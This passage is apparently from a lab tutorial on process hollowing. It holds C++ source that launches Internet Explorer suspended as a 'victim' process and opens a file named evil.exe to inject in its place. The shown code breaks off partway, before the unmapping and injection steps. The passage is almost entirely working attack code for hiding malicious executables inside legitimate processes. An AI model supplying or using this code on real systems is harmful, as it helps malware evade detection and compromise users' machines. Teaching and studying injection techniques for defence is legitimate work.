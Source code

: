 ```cpp
ResumeThread(
	target_pi->hThread // Handle to the thread obtained from the PROCESS_INFORMATION structure
);
```

Complete code is below

```cpp
#include <stdio.h>
#include <Windows.h>

#pragma comment(lib, "ntdll.lib")

EXTERN_C NTSTATUS NTAPI NtUnmapViewOfSection(HANDLE, PVOID);

int main() {

	LPSTARTUPINFOA pVictimStartupInfo = new STARTUPINFOA();
	LPPROCESS_INFORMATION pVictimProcessInfo = new PROCESS_INFORMATION();

	// Tested against 32-bit IE.
	LPCSTR victimImage = "C:\\Program Files (x86)\\Internet Explorer\\iexplore.exe";

	// Change this. Also must be 32-bit. Use project settings from the same project.
	LPCSTR replacementImage = "C:\\Users\\THM-Attacker\\Desktop\\Injectors\\evil.exe";

	// Create victim process
	if (!CreateProcessA(
			0,
			(LPSTR)victimImage,
			0,
			0,
			0,
			CREATE_SUSPENDED,
			0,
			0,
			pVictimStartupInfo,
			pVictimProcessInfo)) {
		printf("[-] Failed to create victim process %i\r\n", GetLastError());
		return 1;
	};

	printf("[+] Created victim process\r\n");
	printf("\t[*] PID %i\r\n", pVictimProcessInfo->dwProcessId);

	
	// Open replacement executable to place inside victim process
	HANDLE hReplacement = CreateFileA(
		replacementImage,
		GENERIC_READ,
		FILE_SHARE_READ,
		0,
		OPEN_EXISTING,
		0,
		0
	);

	if (hReplacement == INVALID_HANDLE_VALUE) {
		printf("[-] Unable to open replacement executable %i\r\n", GetLastError());
		TerminateProcess(pVictimProcessInfo->hProcess, 1);
		return 1;
	}

	DWORD replacementSize = GetFileSize(
```